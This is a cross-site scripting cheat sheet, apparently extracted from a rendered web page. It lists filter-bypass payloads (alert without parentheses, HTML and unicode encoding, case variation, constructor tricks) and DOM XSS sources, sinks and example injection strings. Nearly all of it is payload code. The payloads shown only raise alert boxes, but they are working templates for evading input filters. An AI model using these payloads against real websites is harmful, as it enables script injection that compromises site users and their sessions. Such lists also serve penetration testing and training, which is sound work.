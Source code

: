 ### Advanced XSS Techniques

#### Filter Bypass

```javascript
// Without parentheses
<img src=x onerror=alert`1`>
<img src=x onerror=alert.call`${1}`>
<img src=x onerror=alert.bind\x28null,1\x29\x28\x29>

// Without alert <img src=x onerror=prompt`1`> <img src=x onerror=confirm`1`> <img src=x onerror=eval('al'+'ert(1)')>

// Case variations

<ScRiPt>alert(1)</ScRiPt> <IMG SRC=X ONERROR=alert(1)>

// Encoding <img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;"> <img src=x onerror="\u0061\u006c\u0065\u0072\u0074(1)"> <img src=x onerror="\x61\x6c\x65\x72\x74(1)">

// Using constructors <img src=x onerror=constructor.constructor('alert(1)')()> <img src=x onerror=[].find.constructor('alert(1)')()>
````

#### DOM XSS
```javascript
// Sources (user input)
document.location
document.URL
document.referrer
window.name
document.cookie

// Sinks (dangerous functions)
eval()
setTimeout()
setInterval()
innerHTML
document.write()
element.src

// Example exploits
#<img src=x onerror=alert(1)>
?name=<script>alert(1)</script>
````

